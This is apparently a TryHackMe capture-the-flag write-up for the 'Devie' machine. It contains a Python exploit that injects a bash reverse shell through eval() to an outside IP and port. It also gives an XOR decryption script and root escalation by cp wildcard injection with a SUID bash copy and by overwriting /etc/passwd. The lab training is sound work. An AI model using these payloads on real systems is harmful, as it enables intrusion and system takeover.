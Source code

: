 




![davie](https://github.com/user-attachments/assets/22114f94-ac64-4aa0-b5a5-207e6e52dfd7)










*"Appearances can be deceiving, and in cybersecurity, what you see isn't always what you get."*

## Introduction

In this TryHackMe challenge, we're presented with a seemingly simple mathematical equation solver website. However, as we'll discover, there's more than meets the eye. The ability to download the source code provides us with our first clue into finding the vulnerability that will grant us initial access.




![thm-devie-homepage](https://github.com/user-attachments/assets/f4d7db0c-fe6e-4f2f-b293-6992889f0818)


## Initial Reconnaissance



Let's start by scanning the target machine to understand what services are running:

```bash
nmap -sC -sV -A -oN nmap_result MACHINE_IP
```

The scan reveals two open ports:
- Port 22: Running OpenSSH 8.2p1
- Port 5000: A Python web application using Werkzeug

## Gaining Initial Access

The web application's source code reveals an interesting vulnerability in the `app.py` file. The use of the `eval()` function with user input creates a dangerous situation. Here's the vulnerable code:

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

We can exploit this by injecting Python code through the `eval()` function. Here's our exploit script:

```python
import requests

url = "http://MACHINE_IP:5000"
rev_shell = "__import__('os').system(\"bash+-c+'bash+-i+>%26+/dev/tcp/10.18.11.118/9001+0>%261'\")#"
payload = f"xa={rev_shell}&xb=3"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
    "Content-Type": "application/x-www-form-urlencoded"
}

response = requests.post(url, data=payload, headers=headers)
```

## Lateral Movement

After gaining access as user 'bruce', we discover:
- The first flag
- A note from Gordon about an encoded password
- Sudo privileges to run `/usr/bin/python3 /opt/encrypt.py` as user 'gordon'

The encryption script uses XOR with base64 encoding. We can exploit this using a known-plaintext attack. Here's our decryption script:

```python
import base64
import sys

def cut_until_repeat(s):
    for i in range(1, len(s) // 2 + 1):
        if s[:i] * (len(s) // i) + s[:len(s) % i] == s:
            return s[:i]
    return s

def decode_string(base64_string):
    base64_bytes = base64_string.encode('ascii')
    decoded_string = base64.b64decode(base64_bytes)
    return decoded_string.decode('ascii')

def xor(password, key):
    xor = ""
    for i in range(0, min(len(password), len(key))):
        xor += chr(ord(password[i]) ^ ord(key[i%len(key)]))
    return xor

# Usage: python3 xor.py <password> <base64_string> <encrypted_secret>
```

## Privilege Escalation

As user 'gordon', we discover:
- The second flag
- A backup system that copies files from `/home/gordon/reports/` to `/home/gordon/backups/`

The backup script uses a wildcard (`*`) which we can exploit:

```bash
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

We can exploit this by:
1. Copying `/bin/bash` to the reports directory
2. Setting the SUID bit
3. Creating a file named `--preserve=mode`

After the backup script runs, we can execute the copied bash binary to get a root shell:

```bash
./bash -p
```

## Alternative Privilege Escalation Method

Another approach involves manipulating the `/etc/passwd` file:
1. Create a modified copy of `/etc/passwd` in the reports directory
2. Change gordon's UID and GID to 0
3. Create a symbolic link from backups to `/etc`
4. Wait for the backup script to overwrite the real `/etc/passwd`

## Conclusion

This machine demonstrates several important security concepts:
- The dangers of using `eval()` with user input
- Weak encryption implementations
- Wildcard injection vulnerabilities
- File permission manipulation

Remember: in cybersecurity, the most dangerous vulnerabilities are often hidden in plain sight, waiting to be discovered by those who know where to look. 
